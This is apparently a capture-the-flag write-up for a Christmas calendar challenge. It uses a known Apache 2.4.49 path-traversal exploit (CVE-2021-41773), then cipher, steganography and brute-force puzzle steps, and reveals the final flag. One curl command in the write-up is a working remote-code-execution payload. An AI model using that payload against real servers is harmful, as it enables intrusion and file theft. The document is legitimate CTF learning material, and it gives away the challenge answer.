




# Challenge

So you really want to get tickets for DJ Oiler's Monster Bash at Santa's Rave Party.

I guess you'd better head on over to:

http://santasticketoffice.norwayeast.azurecontainer.io

before they sell out... You really don't want to miss out on DJ Oiler and DrCiRCUiT and the Stack Tracers!

> **Hint:** So this seems strangely familiar, yet differen't... And btw you may need to consult Allsafe Cybersecurity's 1337 guy down the line... or not who knows :)

# Writeup

Started with exiftool on image from the website, nothing! Used whatweb on the site and it clearly shows apache 2.4.9.

```bash
┌──(toffe㉿kali)-[~/Projects/dnb-julekalender-2022/door-24/web]
└─$ whatweb -a 3 http://santasticketoffice.norwayeast.azurecontainer.io/
http://santasticketoffice.norwayeast.azurecontainer.io/ [200 OK] Apache[2.4.49], Bootstrap[4.5.2], Country[UNITED STATES][US], HTML5, HTTPServer[Unix][Apache/2.4.49 (Unix)], IP[20.100.165.5], Title[Santa's Ticket Office]
```

Quick search on exploit-db shows [CVE 2021-41773](https://www.exploit-db.com/exploits/50383). Quickly modified tested the script from exploit-db and it works. Found out by browsing `ls /` it had a flag.txt. So here is how I extracted that:

```bash
$ curl -s --path-as-is -d "echo Content-Type: text/plain; echo; cat /flag.txt" "http://santasticketoffice.norwayeast.azurecontainer.io/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh"

${...}
Nope, no flag here. Did you really think it would be this simple?
Not when Dj Oiler is involved! 
But you did find something... you managed to find this ticket:
VkJFVDovL2pvdmVlamZpZ2kuZWN6aGVwc2lkeC5ybmNjaXRjdmVlemJtYy5tZg==

Well in the mean time you can find the key for this cipher here:

 ▄▄▄▄▄▄▄   ▄ ▄▄▄▄ ▄▄▄ ▄ ▄  ▄▄▄▄▄▄▄
 █ ▄▄▄ █ ▀ ▀ ▄█▀█▀▀  ▄▄▄▄▀ █ ▄▄▄ █
 █ ███ █ ▀█▀ ▀ ▀█▄█▄▄█ ▀██ █ ███ █
 █▄▄▄▄▄█ █▀▄▀█ ▄ ▄ █ █ █ █ █▄▄▄▄▄█
 ▄▄▄▄▄ ▄▄▄█▀█  ▀ █▄▀ ▀▀█▀█▄ ▄ ▄ ▄ 
  ▄▀██▄▄ █ █ ▀███▄▀█▀▀▀▀▀ ▀▀  ▄▀█▀
  ▄▄▄  ▄▀▀▄▄ █▀▄█ ▄ █▀▀▄ ▄▄▀█▄▄▀  
 █ ▄▀▄▄▄  ▀▄▄▄  ▀▀ ▀▀▀█▄▀  █▄▄  █▀
 ▀▀ █▄█▄███ █  ▀ █▄▀█▀▀▀▀ █ ▄█ ▀▄ 
   ▀▄ █▄▄ ▀▄ ▀███▄ ▀▀▄ ▄▀▄▄▀  █ █▀
  ▀▄▀▀█▄█▀█  █▀▄█ ▄▀▀▄▀▄█▄█ ██ ▀▄ 
 █ █▄▀▄▄▀██▄▄▄  ▀▀ ▀▀█▀█▀▀▀▀▄▄█ █▀
 █ █▄ ▄▄█▀█▄█  ▀ ▀▄ ▀█▀█ ████▄▀▀ ▄
 ▄▄▄▄▄▄▄ █▄▀ ▀███▄█▀▀█▄ ██ ▄ █ ▄▄▀
 █ ▄▄▄ █ ▄▄  █▀▄▀▄▄▀█▀▀█ █▄▄▄██▀█ 
 █ ███ █ █ ▄▄▄  ▄███▀▀ ▄   ▄▀▀▀█▀▀
 █▄▄▄▄▄█ ██▄█  ▀█▀▄  ▀▀▄█▄▀██▀▀▀▄ 


Last letter i R...
```

Base64 data: `VBET://joveejfigi.eczhepsidx.rnccitcveezbmc.mf`
QR Code: `https://htbbinaries.z1.web.core.windows.net/hiddenkey`

Started decoding the base64 data and as I knew the url format I easily guessed the first 5 letters of the subdomain to be `santas`.

```
VBET://joveejfigi.eczhepsidx.rnccitcveezbmc.mf
http://----------.norwayeast.azurecontainer.io
       santas....

j = s
nve = nta
so.. santas <4 letters>
```

Starting my DNS hammer, while searching for clues on what it might be on the websites.

I came as far as: `santsabdjt.norwayeast.azurecontainer.io` when it suddenly came to me, the title invites us to "santas rave".. So maybe that is all? I tested it and got a hit!

Edit: Turns out to be Vigenere Decode using keyword: oiler, probably extractable from the hiddenkey as it hints with the QR code. But with so many known variables it is also easier to guess.

Whatweb on santasrave:

```
┌──(toffe㉿kali)-[~/Projects/dnb-julekalender-2022/door-24]
└─$ whatweb -a 3 http://santasrave.norwayeast.azurecontainer.io/
http://santasrave.norwayeast.azurecontainer.io/ [200 OK] Country[UNITED STATES][US], HTML5, IP[20.100.161.219], Title[Welcome to Santas Rave!], X-UA-Compatible[IE=edge]
```

Alt text on image says: `find djoilersmonsterbash.cue and .bin files`
Comment below: `Then maybe Santa can tell you where to go next?`

Santa tells me:
```
Author                          : DrCiRCUiT enjoys the key CHRISTMAS
Artist                          : OUVFQWleXjY9PTpARURBMkRESEBDNTc6PzU2Q10/QENIMko2MkRFXTJLRkM2NEA/RTI6PzZDXTpA
Comment                         : 64->47->www`
```

Gobuster quickly found /promo on the website where I found the .cue and .bin files. Used PowerISO to extract the wav files which. Exiftool or steghide (with password "CHRISTMAS") did not work. So started soon enough on the santa image. URL was base64 decoded, then rot47 and I got the following url: `http://elliotspasswordfinder.norwayeast.azurecontainer.io`



10 tracks, 10 keys, after a while I build a [quick bruteforce script](brute.js) as I had nothing to go on here. I tried different words, from the website. Lots of different stuff, suddenly I had a hit on our main guy DJ Oiler! "oiler" was the 7th key. So I tried different people I know. Even WCH. Nothing.

With a loss of stuff to try I tried the names of all the songs. And here we go! 

```
Testing: crypto
Testing: stego
Testing: constant
Testing: pain
1 - pain = success
Testing: breakpoint
2 - breakpoint = success
Testing: dancing
Testing: meltdown
Testing: overflow
Testing: my
Testing: buffer
4 - buffer = success
Testing: pop
Testing: my
Testing: stack
5 - stack = success
Testing: hardware
6 - hardware = success
Testing: problem
Testing: oct31
Testing: catch
Testing: my
Testing: exception
8 - exception = success
Testing: hackers
Testing: assemble
9 - assemble = success
Testing: drcircuit
Testing: and
Testing: the
Testing: stack
5 - stack = success
Testing: tracers
Testing: ctf
```

1, 2, 4, 5, 6, 8 and 9 all hits. So looking at why number 3 fails. Only 1 word. So I listen to it and hear the following 3 words `meltdown initiated execute` and to my surprise it hits on execute! Now I continue doing that on all of the missing, taking the lyrics and after a while I got them all.

```
1 = pain
2 = breakpoint
3 = execute
4 = buffer
5 = stack
6 = hardware
7 = oiler
8 = exception
9 = assemble
10 = blues
```
Pressing all the keys and open them one by one reveals after a while the password:



Now really knowing where to go from here I did google "hide files in wav" shows the second hit: [The Hacks of Mr. Robot: How to Hide Data in Audio Files](https://null-byte.wonderhowto.com/how-to/hacks-mr-robot-hide-data-audio-files-0164136/) which talks about "DeepSound"

Quickly opening track 1 asked for a password, pasted in "GiveMyRegardsToElliott!" and got a file. Same for 2, nothing for 3-9 but 10 asked for password but did not work.



Looked at the two hidden files I found called "hidden-1.png" and "hidden-2.png", exittool shows a comment on the first file `Split the difference...`. So I open up a diff checker [Image Diff Checker](https://www.diffchecker.com/image-compare/) and got this.



`${M3RRY_C4RI57M@5_FROM_DNB_N3W73C4_l@B!}`